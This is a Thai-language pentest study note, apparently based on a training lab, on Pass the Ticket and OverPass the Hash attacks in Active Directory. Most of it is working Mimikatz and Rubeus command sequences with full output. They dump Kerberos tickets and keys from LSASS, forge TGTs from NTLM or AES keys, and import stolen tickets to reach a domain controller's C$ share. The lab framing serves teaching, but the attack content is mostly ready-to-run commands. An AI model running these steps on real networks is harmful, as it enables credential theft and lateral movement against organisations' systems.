


# Pass the Ticket (PtT) จาก Windows

## ภาพรวม

**Pass the Ticket (PtT)** เป็นเทคนิคการเคลื่อนที่ข้างเคียง (Lateral Movement) ใน Active Directory ที่ใช้ Kerberos ticket ที่ถูกขโมยมาแทนการใช้ NTLM password hash

---

## ทบทวน Kerberos Protocol

### หลักการพื้นฐาน
Kerberos เป็นระบบยืนยันตัวตนแบบ ticket-based ที่ไม่ต้องส่งรหัสผ่านไปยังทุก service แต่ใช้ ticket เฉพาะสำหรับแต่ละ service

### ประเภทของ Ticket

**1. Ticket Granting Ticket (TGT)**
- เป็น ticket แรกที่ได้รับในระบบ Kerberos
- ใช้เพื่อขอ ticket อื่นๆ (TGS)
- ผู้ใช้ต้องยืนยันตัวตนกับ Domain Controller ด้วยการเข้ารหัส timestamp ด้วย password hash
- เมื่อได้ TGT แล้ว ไม่ต้องพิสูจน์ตัวตนด้วยรหัสผ่านอีก

**2. Ticket Granting Service (TGS)**
- ผู้ใช้ขอเมื่อต้องการใช้งาน service ใดๆ
- ใช้ยืนยันตัวตนกับ service นั้นๆ
- ขอจาก Key Distribution Center (KDC) โดยแสดง TGT

### ตัวอย่างการทำงาน
ถ้าผู้ใช้ต้องการเชื่อมต่อกับ MSSQL database:
1. ส่ง TGT ไปขอ TGS จาก KDC
2. นำ TGS ไปแสดงต่อ MSSQL server เพื่อยืนยันตัวตน

---

## เงื่อนไขในการโจมตี PtT

ต้องมี Kerberos ticket ที่ถูกต้อง ซึ่งอาจเป็น:
- **Service Ticket (TGS):** เพื่อเข้าถึง resource เฉพาะ
- **Ticket Granting Ticket (TGT):** เพื่อขอ service tickets สำหรับ resource ใดก็ได้ที่ผู้ใช้มีสิทธิ์

---

## สถานการณ์จำลอง

สมมติเราทำ pentest และ:
1. Phishing ผู้ใช้สำเร็จ เข้าถึงคอมพิวเตอร์ของเหยื่อ
2. ยกระดับสิทธิ์เป็น local administrator
3. พร้อมที่จะดึง tickets และสร้าง tickets ใหม่

---

## การเก็บเกี่ยว (Harvest) Kerberos Tickets

### พื้นฐาน
- Tickets ถูกประมวลผลและเก็บโดยโปรเซส **LSASS (Local Security Authority Subsystem Service)**
- ผู้ใช้ธรรมดา: ได้เฉพาะ tickets ของตัวเอง
- Local administrator: ได้ tickets ทั้งหมดในระบบ

### วิธีที่ 1: ใช้ Mimikatz

```cmd
c:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export

Authentication Id : 0 ; 329278 (00000000:0005063e)
Session           : Network from 0
User Name         : DC01$
Domain            : HTB
Logon Server      : (null)
Logon Time        : 7/12/2022 9:39:55 AM
SID               : S-1-5-18

         * Username : DC01$
         * Domain   : inlanefreight.htb
         * Password : (null)
         
        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 7/12/2022 9:39:55 AM ; 7/12/2022 7:39:54 PM ;
           Service Name (02) : LDAP ; DC01.inlanefreight.htb ; inlanefreight.htb ; @ inlanefreight.htb
           Target Name  (--) : @ inlanefreight.htb
           Client Name  (01) : DC01$ ; @ inlanefreight.htb
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             31cfa427a01e10f6e09492f2e8ddf7f74c79a5ef6b725569e19d614a35a69c07
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;5063e]-1-0-40a50000-DC01$@LDAP-DC01.inlanefreight.htb.kirbi !

        Group 2 - Ticket Granting Ticket

mimikatz # exit
Bye!

c:\tools> dir *.kirbi

Directory: c:\tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----

<SNIP>

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
```

**ผลลัพธ์:**
- ไฟล์นามสกุล `.kirbi` หลายไฟล์
- ไฟล์ที่ลงท้ายด้วย `$` = computer account tickets
- ไฟล์ที่มี format `[value]-username@service-domain.local.kirbi` = user tickets
- Ticket ที่มี service `krbtgt` = TGT ของบัญชีนั้น

| คุณสมบัติ | Computer Account ($) | User Account | TGT (krbtgt) |
|-----------|---------------------|--------------|--------------|
| **ชื่อใน ticket** | DC01$ | plaintext | plaintext@krbtgt |
| **เจ้าของ** | เครื่องคอมพิวเตอร์ | ผู้ใช้จริง | ทั้ง user และ computer |
| **สัญลักษณ์** | มี $ ต่อท้าย | ไม่มี $ | service = krbtgt |
| **ประเภท** | อาจเป็น TGT หรือ TGS | อาจเป็น TGT หรือ TGS | TGT เท่านั้น |
| **วัตถุประสงค์** | ให้คอมพิวเตอร์ทำงานกับ AD | ให้ผู้ใช้เข้าถึง resources | ขอ service tickets อื่นๆ |
| **Service examples** | CIFS, LDAP, HTTP, DNS | CIFS, LDAP, HTTP, MSSQL | krbtgt เท่านั้น |

---


### วิธีที่ 2: ใช้ Rubeus

```cmd
c:\tools> Rubeus.exe dump /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


Action: Dump Kerberos Ticket Data (All Users)

[*] Current LUID    : 0x6c680
    ServiceName           :  krbtgt/inlanefreight.htb
    ServiceRealm          :  inlanefreight.htb
    UserName              :  DC01$
    UserRealm             :  inlanefreight.htb
    StartTime             :  7/12/2022 9:39:54 AM
    EndTime               :  7/12/2022 7:39:54 PM
    RenewTill             :  7/19/2022 9:39:54 AM
    Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
    KeyType               :  aes256_cts_hmac_sha1
    Base64(key)           :  KWBMpM4BjenjTniwH0xw8FhvbFSf+SBVZJJcWgUKi3w=
    Base64EncodedTicket   :

doIE1jCCBNKgAwIBBaEDAgEWooID7TCCA+lhggPlMIID4aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB0hUQi5DT02jggOvMIIDq6ADAgESoQMCAQKiggOdBIIDmUE/AWlM6VlpGv+Gfvn6bHXrpRjRbsgcw9beSqS2ihO+FY/2Rr0g0iHowOYOgn7EBV3JYEDTNZS2ErKNLVOh0/TczLexQk+bKTMh55oNNQDVzmarvzByKYC0XRTjb1jPuVz4exraxGEBTgJYUunCy/R5agIa6xuuGUvXL+6AbHLvMb+ObdU7Dyn9eXruBscIBX5k3D3S5sNuEnm1sHVsGuDBAN5Ko6kZQRTx22A+lZZD12ymv9rh8S41z0+pfINdXx/VQAxYRL5QKdjbndchgpJro4mdzuEiu8wYOxbpJdzMANSSQiep+wOTUMgimcHCCCrhXdyR7VQoRjjdmTrKbPVGltBOAWQOrFs6YK1OdxBles1GEibRnaoT9qwEmXOa4ICzhjHgph36TQIwoRC+zjPMZl9lf+qtpuOQK86aG7Uwv7eyxwSa1/H0mi5B+un2xKaRmj/mZHXPdT7B5Ruwct93F2zQQ1mKIH0qLZO1Zv/G0IrycXxoE5MxMLERhbPl4Vx1XZGJk2a3m8BmsSZJt/++rw7YE/vmQiW6FZBO/2uzMgPJK9xI8kaJvTOmfJQwVlJslsjY2RAVGly1B0Y80UjeN8iVmKCk3Jvz4QUCLK2zZPWKCn+qMTtvXBqx80VH1hyS8FwU3oh90IqNS1VFbDjZdEQpBGCE/mrbQ2E/rGDKyGvIZfCo7t+kuaCivnY8TTPFszVMKTDSZ2WhFtO2fipId+shPjk3RLI89BT4+TDzGYKU2ipkXm5cEUnNis4znYVjGSIKhtrHltnBO3d1pw402xVJ5lbT+yJpzcEc5N7xBkymYLHAbM9DnDpJ963RN/0FcZDusDdorHA1DxNUCHQgvK17iametKsz6Vgw0zVySsPp/wZ/tssglp5UU6in1Bq91hA2c35l8M1oGkCqiQrfY8x3GNpMPixwBdd2OU1xwn/gaon2fpWEPFzKgDRtKe1FfTjoEySGr38QSs1+JkVk0HTRUbx9Nnq6w3W+D1p+FSCRZyCF/H1ahT9o0IRkFiOj0Cud5wyyEDom08wOmgwxK0D/0aisBTRzmZrSfG7Kjm9/yNmLB5va1yD3IyFiMreZZ2WRpNyK0G6L4H7NBZPcxIgE/Cxx/KduYTPnBDvwb6uUDMcZR83lVAQ5NyHHaHUOjoWsawHraI4uYgmCqXYN7yYmJPKNDI290GMbn1zIPSSL82V3hRbOO8CZNP/f64haRlR63GJBGaOB1DCB0aADAgEAooHJBIHGfYHDMIHAoIG9MIG6MIG3oCswKaADAgESoSIEIClgTKTOAY3p4054sB9McPBYb2xUn/kgVWSSXFoFCot8oQkbB0hUQi5DT02iEjAQoAMCAQGhCTAHGwVEQzAxJKMHAwUAYKEAAKURGA8yMDIyMDcxMjEzMzk1NFqmERgPMjAyMjA3MTIyMzM5NTRapxEYDzIwMjIwNzE5MTMzOTU0WqgJGwdIVEIuQ09NqRwwGqADAgECoRMwERsGa3JidGd0GwdIVEIuQ09N

  UserName                 : plaintext
  Domain                   : HTB
  LogonId                  : 0x6c680
  UserSID                  : S-1-5-21-228825152-3134732153-3833540767-1107
  AuthenticationPackage    : Kerberos
  LogonType                : Interactive
  LogonTime                : 7/12/2022 9:42:15 AM
  LogonServer              : DC01
  LogonServerDNSDomain     : inlanefreight.htb
  UserPrincipalName        : plaintext@inlanefreight.htb


    ServiceName           :  krbtgt/inlanefreight.htb
    ServiceRealm          :  inlanefreight.htb
    UserName              :  plaintext
    UserRealm             :  inlanefreight.htb
    StartTime             :  7/12/2022 9:42:15 AM
    EndTime               :  7/12/2022 7:42:15 PM
    RenewTill             :  7/19/2022 9:42:15 AM
    Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType               :  aes256_cts_hmac_sha1
    Base64(key)           :  2NN3wdC4FfpQunUUgK+MZO8f20xtXF0dbmIagWP0Uu0=
    Base64EncodedTicket   :

doIE9jCCBPKgAwIBBaEDAgEWooIECTCCBAVhggQBMIID/aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB0hUQi5DT02jggPLMIIDx6ADAgESoQMCAQKiggO5BIIDtc6ptErl3sAxJsqVTkV84/IcqkpopGPYMWzPcXaZgPK9hL0579FGJEBXX+Ae90rOcpbrbErMr52WEVa/E2vVsf37546ScP0+9LLgwOAoLLkmXAUqP4zJw47nFjbZQ3PHs+vt6LI1UnGZoaUNcn1xI7VasrDoFakj/ZH+GZ7EjgpBQFDZy0acNL8cK0AIBIe8fBF5K7gDPQugXaB6diwoVzaO/E/p8m3t35CR1PqutI5SiPUNim0s/snipaQnyuAZzOqFmhwPPujdwOtm1jvrmKV1zKcEo2CrMb5xmdoVkSn4L6AlX328K0+OUILS5GOe2gX6Tv1zw1F9ANtEZF6FfUk9A6E0dc/OznzApNlRqnJ0dq45mD643HbewZTV8YKS/lUovZ6WsjsyOy6UGKj+qF8WsOK1YsO0rW4ebWJOnrtZoJXryXYDf+mZ43yKcS10etHsq1B2/XejadVr1ZY7HKoZKi3gOx3ghk8foGPfWE6kLmwWnT16COWVI69D9pnxjHVXKbB5BpQWAFUtEGNlj7zzWTPEtZMVGeTQOZ0FfWPRS+EgLmxUc47GSVON7jhOTx3KJDmE7WHGsYzkWtKFxKEWMNxIC03P7r9seEo5RjS/WLant4FCPI+0S/tasTp6GGP30lbZT31WQER49KmSC75jnfT/9lXMVPHsA3VGG2uwGXbq1H8UkiR0ltyD99zDVTmYZ1aP4y63F3Av9cg3dTnz60hNb7H+AFtfCjHGWdwpf9HZ0u0HlBHSA7pYADoJ9+ioDghL+cqzPn96VyDcqbauwX/FqC/udT+cgmkYFzSIzDhZv6EQmjUL4b2DFL/Mh8BfHnFCHLJdAVRdHlLEEl1MdK9/089O06kD3qlE6s4hewHwqDy39ORxAHHQBFPU211nhuU4Jofb97d7tYxn8f8c5WxZmk1nPILyAI8u9z0nbOVbdZdNtBg5sEX+IRYyY7o0z9hWJXpDPuk0ksDgDckPWtFvVqX6Cd05yP2OdbNEeWns9JV2D5zdS7Q8UMhVo7z4GlFhT/eOopfPc0bxLoOv7y4fvwhkFh/9LfKu6MLFneNff0Duzjv9DQOFd1oGEnA4MblzOcBscoH7CuscQQ8F5xUCf72BVY5mShq8S89FG9GtYotmEUe/j+Zk6QlGYVGcnNcDxIRRuyI1qJZxCLzKnL1xcKBF4RblLcUtkYDT+mZlCSvwWgpieq1VpQg42Cjhxz/+xVW4Vm7cBwpMc77Yd1+QFv0wBAq5BHvPJI4hCVPs7QejgdgwgdWgAwIBAKKBzQSByn2BxzCBxKCBwTCBvjCBu6ArMCmgAwIBEqEiBCDY03fB0LgV+lC6dRSAr4xk7x/bTG1cXR1uYhqBY/RS7aEJGwdIVEIuQ09NohYwFKADAgEBoQ0wCxsJcGxhaW50ZXh0owcDBQBA4QAApREYDzIwMjIwNzEyMTM0MjE1WqYRGA8yMDIyMDcxMjIzNDIxNVqnERgPMjAyMjA3MTkxMzQyMTVaqAkbB0hUQi5DT02pHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB0hUQi5DT00=
<SNIP>
```

**ผลลัพธ์:**
- Tickets ในรูปแบบ Base64 (ไม่ใช่ไฟล์)
- Option `/nowrap` ทำให้ copy-paste ง่าย

**หมายเหตุสำคัญ:**
- Mimikatz version 2.2.0 20220919 บางเวอร์ชันอาจแสดง hash เป็น `des_cbc_md4` ผิดพลาดบน Windows 10 บางเวอร์ชัน
- ต้องใช้สิทธิ์ administrator ในการเก็บ tickets ทั้งหมด

---

## Pass the Key / OverPass the Hash

### ความแตกต่างจาก Pass the Hash ธรรมดา
- **Pass the Hash แบบเดิม:** ใช้ NTLM hash โดยไม่ใช้ Kerberos
- **Pass the Key/OverPass the Hash:** แปลง hash/key (rc4_hmac, aes256_cts_hmac_sha1) เป็น TGT เต็มรูปแบบ

| หัวข้อ | OverPass the Hash | Pass the Ticket |
|--------|-------------------|-----------------|
| **ชื่ออื่น** | Pass the Key | PtT |
| **Input ที่ใช้** | Password hash/key | Kerberos ticket ที่มีอยู่แล้ว |
| **Output ที่ได้** | TGT ใหม่ที่ forge ขึ้นมา | ใช้ ticket เดิมที่ขโมยมา |
| **Kerberos Protocol** | สร้าง ticket ใหม่ผ่าน Kerberos | ใช้ ticket ที่มีอยู่โดยตรง |
| **ต้องติดต่อ KDC** | ✅ ใช่ (ต้องขอ TGT จาก DC) | ❌ ไม่ (ใช้ ticket ที่มีอยู่) |

---

### ขั้นตอนที่ 1: ดึง Kerberos Keys

```cmd
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys

Authentication Id : 0 ; 444066 (00000000:0006c6a2)
Session           : Interactive from 1
User Name         : plaintext
Domain            : HTB
Logon Server      : DC01
Logon Time        : 7/12/2022 9:42:15 AM
SID               : S-1-5-21-228825152-3134732153-3833540767-1107

         * Username : plaintext
         * Domain   : inlanefreight.htb
         * Password : (null)
         * Key List :
           aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
<SNIP>
```

**ข้อมูลที่ได้:**
- `aes256_hmac` key
- `rc4_hmac_nt` (NTLM hash)
- `rc4_hmac_old`
- `rc4_md4`

### ขั้นตอนที่ 2: ใช้ Key เพื่อสร้าง TGT

**ด้วย Mimikatz:**
```cmd
mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
- สร้าง cmd.exe window ใหม่
- สามารถขอเข้าถึง service ใดก็ได้ในนาม user นั้น

**ด้วย Rubeus:**
```cmd
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 3f74aa8f08f712f09cd5177b5c1ce50f
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\plaintext'
[+] TGT request successful!
[*] Base64(ticket.kirbi):

doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/LSsa2xrdJJir1eVugDFCoGFT2hDcYcpRdifXw67WofDM6Z6utsha+4bL0z6QN+tdpPlNQFwjuWmBrZtpS9TcCblotYvDHa0aLVsroW/fqXJ4KIV2tVfbVIDJvPkgdNAbhp6NvlbzeakR1oO5RTm7wtRXeTirfo6C9Ap0HnctlHAd+Qnvo2jGUPP6GHIhdlaM+QShdJtzBEeY/xIrORiiylYcBvOoir8mFEzNpQgYADmbTmg+c7/NgNO8Qj4AjrbGjVf/QWLlGc7sH9+tARi/Gn0cGKDK481A0zz+9C5huC9ZoNJ/18rWfJEb4P2kjlgDI0/fauT5xN+3NlmFVv0FSC8/909pUnovy1KkQaMgXkbFjlxeheoPrP6S/TrEQ8xKMyrz9jqs3ENh//q738lxSo8J2rZmv1QHy+wmUKif4DUwPyb4AHgSgCCUUppIFB3UeKjqB5srqHR78YeAWgY7pgqKpKkEomy922BtNprk2iLV1cM0trZGSk6XJ/H+JuLHI5DkuhkjZQbb1kpMA2CAFkEwdL9zkfrsrdIBpwtaki8pvcBPOzAjXzB7MWvhyAQevHCT9y6iDEEvV7fsF/B5xHXiw3Ur3P0xuCS4K/Nf4GC5PIahivW3jkDWn3g/0nl1K9YYX7cfgXQH9/inPS0OF1doslQfT0VUHTzx8vG3H25vtc2mPrfIwfUzmReLuZH8GCvt4p2BAbHLKx6j/HPa4+YPmV0GyCv9iICucSwdNXK53Q8tPjpjROha4AGjaK50yY8lgknRA4dYl7+O2+j4K/lBWZHy+IPgt3TO7YFoPJIEuHtARqigF5UzG1S+mefTmqpuHmoq72KtidINHqi+GvsvALbmSBQaRUXsJW/Lf17WXNXmjeeQWemTxlysFs1uRw9JlPYsGkXFh3fQ2ngax7JrKiO1/zDNf6cvRpuygQRHMOo5bnWgB2E7hVmXm2BTimE7axWcmopbIkEi165VOy/M+pagrzZDLTiLQOP/X8D6G35+srSr4YBWX4524/Nx7rPFCggxIXEU4zq3Ln1KMT9H7efDh+h0yNSXMVqBSCZLx6h3Fm2vNPRDdDrq7uz5UbgqFoR2tgvEOSpeBG5twl4MSh6VA7LwFi2usqqXzuPgqySjA1nPuvfy0Nd14GrJFWo6eDWoOy2ruhAYtaAtYC6OByDCBxaADAgEAooG9BIG6fYG3MIG0oIGxMIGuMIGroBswGaADAgEXoRIEENEzis1B3YAUCjJPPsZjlduhCRsHSFRCLkNPTaIWMBSgAwIBAaENMAsbCXBsYWludGV4dKMHAwUAQOEAAKURGA8yMDIyMDcxMjE1MjgyNlqmERgPMjAyMjA3MTMwMTI4MjZapxEYDzIwMjIwNzE5MTUyODI2WqgJGwdIVEIuQ09NqRwwGqADAgECoRMwERsGa3JidGd0GwdodGIuY29t

  ServiceName           :  krbtgt/inlanefreight.htb
  ServiceRealm          :  inlanefreight.htb
  UserName              :  plaintext
  UserRealm             :  inlanefreight.htb
  StartTime             :  7/12/2022 11:28:26 AM
  EndTime               :  7/12/2022 9:28:26 PM
  RenewTill             :  7/19/2022 11:28:26 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  0TOKzUHdgBQKMk8+xmOV2w==
```
- ระบุ key type: `/rc4`, `/aes128`, `/aes256`, `/des`
- ได้ TGT ในรูปแบบ Base64

### ข้อควรระวัง

**เรื่องสิทธิ์:**
- Mimikatz: ต้องใช้สิทธิ์ administrator
- Rubeus: ไม่ต้องการสิทธิ์ administrator

**เรื่อง Encryption Downgrade:**
- Modern Windows domains (functional level 2008+) ใช้ AES encryption เป็น default
- การใช้ `rc4_hmac` (NTLM) แทน `aes256_cts_hmac_sha1` อาจถูก detect เป็น "encryption downgrade"

---

## การใช้ Ticket (Pass the Ticket)

### วิธีที่ 1: Rubeus - Import Ticket โดยตรง

```cmd
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 3f74aa8f08f712f09cd5177b5c1ce50f
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\plaintext'
[+] TGT request successful!
[*] Base64(ticket.kirbi):

      doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKh
      EzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpcGX6rbUlYxOWeMmu/zb
      f7vGgDj/g+P5zzLbr+XTIPG0kI2WCOlAFCQqz84yQd6IRcEeGjG4YX/9ezJogYNtiLnY6YPkqlQaG1Nn
      pAQBZMIhs01EH62hJR7W5XN57Tm0OLF6OFPWAXncUNaM4/aeoAkLQHZurQlZFDtPrypkwNFQ0pI60NP2
      9H98JGtKKQ9PQWnMXY7Fc/5j1nXAMVj+Q5Uu5mKGTtqHnJcsjh6waE3Vnm77PMilL1OvH3Om1bXKNNan
      JNCgb4E9ms2XhO0XiOFv1h4P0MBEOmMJ9gHnsh4Yh1HyYkU+e0H7oywRqTcsIg1qadE+gIhTcR31M5mX
      5TkMCoPmyEIk2MpO8SwxdGYaye+lTZc55uW1Q8u8qrgHKZoKWk/M1DCvUR4v6dg114UEUhp7WwhbCEtg
      5jvfr4BJmcOhhKIUDxyYsT3k59RUzzx7PRmlpS0zNNxqHj33yAjm79ECEc+5k4bNZBpS2gJeITWfcQOp
      lQ08ZKfZw3R3TWxqca4eP9Xtqlqv9SK5kbbnuuWIPV2/QHi3deB2TFvQp9CSLuvkC+4oNVg3VVR4bQ1P
      fU0+SPvL80fP7ZbmJrMan1NzLqit2t7MPEImxum049nUbFNSH6D57RoPAaGvSHePEwbqIDTghCJMic2X
      c7YJeb7y7yTYofA4WXC2f1MfixEEBIqtk/drhqJAVXz/WY9r/sWWj6dw9eEhmj/tVpPG2o1WBuRFV72K
      Qp3QMwJjPEKVYVK9f+uahPXQJSQ7uvTgfj3N5m48YBDuZEJUJ52vQgEctNrDEUP6wlCU5M0DLAnHrVl4
      Qy0qURQa4nmr1aPlKX8rFd/3axl83HTPqxg/b2CW2YSgEUQUe4SqqQgRlQ0PDImWUB4RHt+cH6D563n4
      PN+yqN20T9YwQMTEIWi7mT3kq8JdCG2qtHp/j2XNuqKyf7FjUs5z4GoIS6mp/3U/kdjVHonq5TqyAWxU
      wzVSa4hlVgbMq5dElbikynyR8maYftQk+AS/xYby0UeQweffDOnCixJ9p7fbPu0Sh2QWbaOYvaeKiG+A
      GhUAUi5WiQMDSf8EG8vgU2gXggt2Slr948fy7vhROp/CQVFLHwl5/kGjRHRdVj4E+Zwwxl/3IQAU0+ag
      GrHDlWUe3G66NrR/Jg8zXhiWEiViMd5qPC2JTW1ronEPHZFevsU0pVK+MDLYc3zKdfn0q0a3ys9DLoYJ
      8zNLBL3xqHY9lNe6YiiAzPG+Q6OByDCBxaADAgEAooG9BIG6fYG3MIG0oIGxMIGuMIGroBswGaADAgEX
      oRIEED0RtMDJnODs5w89WCAI3bChCRsHSFRCLkNPTaIWMBSgAwIBAaENMAsbCXBsYWludGV4dKMHAwUA
      QOEAAKURGA8yMDIyMDcxMjE2Mjc0N1qmERgPMjAyMjA3MTMwMjI3NDdapxEYDzIwMjIwNzE5MTYyNzQ3
      WqgJGwdIVEIuQ09NqRwwGqADAgECoRMwERsGa3JidGd0GwdodGIuY29t
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/inlanefreight.htb
  ServiceRealm          :  inlanefreight.htb
  UserName              :  plaintext
  UserRealm             :  inlanefreight.htb
  StartTime             :  7/12/2022 12:27:47 PM
  EndTime               :  7/12/2022 10:27:47 PM
  RenewTill             :  7/19/2022 12:27:47 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  PRG0wMmc4OznDz1YIAjdsA==
```
- Option `/ptt` = import ticket เข้า current logon session ทันที
- แสดงข้อความ `[+] Ticket successfully imported!`

### วิธีที่ 2: Rubeus - Import จากไฟล์ .kirbi

```cmd
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.5.0


[*] Action: Import Ticket
[+] ticket successfully imported!

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)
```

### วิธีที่ 3: Rubeus - Import จาก Base64

**แปลง .kirbi เป็น Base64:**
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("ticket.kirbi"))
```

**Import Base64 ticket:**
```cmd
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID...
```

### วิธีที่ 4: Mimikatz - Import Ticket

```cmd
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

* File: 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi': OK
mimikatz # exit
Bye!

c:\tools> dir \\DC01.inlanefreight.htb\c$

